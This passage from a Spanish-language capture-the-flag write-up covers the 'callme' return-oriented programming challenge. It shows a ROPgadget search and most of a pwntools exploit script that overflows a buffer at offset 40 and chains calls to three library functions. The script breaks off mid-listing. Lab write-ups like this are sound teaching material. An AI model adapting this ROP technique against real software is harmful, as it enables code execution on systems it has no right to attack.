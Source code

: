 Esta función nos da los gadgets que necesitamos en uno. Por algún motivo no aparece en `guidra` y tuve que usar `objdump`. Podemos comprobar que existe el gadget con `RopGadget` también:

```c
ROPgadget --binary callme | grep "rdi"
. . .
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
. . .
```

Ahora que sabemos todo esto podemos hacer el script final:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./callme")
libc = ELF("./libcallme.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b usefulFunction
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi_rsi_rdx = 0x0040093c
    
    payload = flat({
        offset: [
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_one,
            
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_two,
            
            pop_rdi_rsi_rdx,
            0xdeadbeefdeadbeef,
            0xcafebabecafebabe,
            0xd00df00dd00df00d,
            
            exe.plt.callme_three
        ]
```